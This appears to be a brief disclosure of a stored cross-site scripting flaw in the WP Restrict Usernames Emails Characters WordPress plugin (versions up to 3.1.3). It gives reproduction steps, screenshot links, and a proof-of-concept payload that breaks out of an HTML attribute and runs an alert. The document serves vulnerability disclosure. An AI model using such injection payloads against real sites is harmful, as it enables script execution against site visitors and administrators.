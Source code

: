 Cross-Site Scripting (XSS) vulnerability in WP Restrict Usernames Emails Characters Plugin <= 3.1.3 at WordPress.

[![piuSqRs.png](https://z1.ax1x.com/2023/11/01/piuSqRs.png)](https://imgse.com/i/piuSqRs)

- [ ] STEPS:
  
  ```
  1.After installing the plugin, click Settings. Then click Restrict Usernames Emails Characters.
  
   Put poc in The name of the user_login field in registration form , then click Save  Changes.
  ```

[![piupPJJ.png](https://z1.ax1x.com/2023/11/01/piupPJJ.png)](https://imgse.com/i/piupPJJ)

POC：

```
"><img src=1 onerror=alert(/xss/)>
```


```
2.Then XSS vulnerability triggered
```

[![piupmdO.png](https://z1.ax1x.com/2023/11/01/piupmdO.png)](https://imgse.com/i/piupmdO)

[![piup8yt.png](https://z1.ax1x.com/2023/11/01/piup8yt.png)](https://imgse.com/i/piup8yt)
